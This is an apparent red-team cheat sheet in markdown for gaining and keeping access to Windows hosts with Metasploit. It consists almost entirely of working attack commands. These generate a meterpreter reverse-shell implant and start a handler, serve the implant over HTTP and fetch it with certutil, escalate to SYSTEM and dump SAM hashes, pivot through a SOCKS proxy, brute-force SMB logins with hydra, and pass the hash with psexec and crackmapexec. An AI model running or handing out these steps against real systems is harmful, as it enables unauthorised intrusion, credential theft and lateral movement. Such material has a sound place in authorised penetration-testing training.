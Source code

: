 # stable access
#### generate implant  
> msfvenom -p windows/x64/meterpreter_reverse_tcp LPORT=443 LHOST=***192.168.1.100*** -f exe -o implant.exe  
#### start c2  
> msfconsole  
> use exploit/multi/handler  
> set payload windows/x64/meterpreter_reverse_tcp  
> set lport 443  
> set lhost ***192.168.1.100***  
> run -j  
#### start webserver for implant download
> python3 -m http.server 80
#### windows LOLBIN basic download of implant
> certutil -urlcache -f http://***192.168.1.100***/implant.exe implant.exe  

# actions on target
#### attempt to get SYSTEM privs
> getsystem  
#### dump SAM
> hashdump
#### set up pivoting
##### in meterpreter session
> arp  
> ipconfig  
> netstat  
> background  
##### from msfconsole
> use post/multi/manage/autoroute  
> set session ***1***  
> set subnet ***192.168.2.0***  
> set netmask ***255.255.255.0***  
> run  
> use auxiliary/server/socks_proxy  
> set srvport 9050  
> set version 4a  
> run  
##### from bash
> proxychains nmap -Pn -p445 ***192.168.2.10*** --script=smb-enum*  
> proxychains hydra -p password1 -l administrator smb://***192.168.2.10***  
#### pass-the-hash
##### in meterpreter session
> hashdump  
> *Administrator:500:aad3b435b51404eeaad3b435b51404ee:5835048ce94ad0564e29a924a03510ef*  
> background
##### from msfconsole
> use exploit/windows/smb/psexec  
> set rhosts ***192.168.1.9***  
> set smbdomain .  
> set smbuser Administrator  
> set smbpass aad3b435b51404eeaad3b435b51404ee:5835048ce94ad0564e29a924a03510ef  
> set payload windows/x64/meterpreter/bind_tcp  
> set lhost ***192.168.1.100***  
> run
##### from bash
> crackmapexec smb ***192.168.1.9*** -u "Administrator" -H 5835048ce94ad0564e29a924a03510ef --local-auth  

